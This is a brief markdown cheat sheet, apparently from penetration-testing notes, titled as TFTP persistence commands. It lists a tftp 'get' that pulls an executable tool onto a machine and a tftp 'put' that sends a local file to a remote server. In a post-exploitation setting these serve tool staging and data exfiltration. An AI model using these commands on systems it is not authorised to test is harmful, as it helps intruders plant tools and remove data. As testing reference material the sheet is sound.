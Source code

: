 # TFTP Persistance Commands

## Commands
| Command  | Description / Importance |
| -------- | ------------------------ |
|`tftp -i ip-address-of-tftp-server get toolname.exe` | Retrive a file from your TFTP server onto the local machine.|
|`tftp -i ip-address-of-tftp-server put somefiletoupload.txt`| Send a file from the local machine to your TFTP server.|
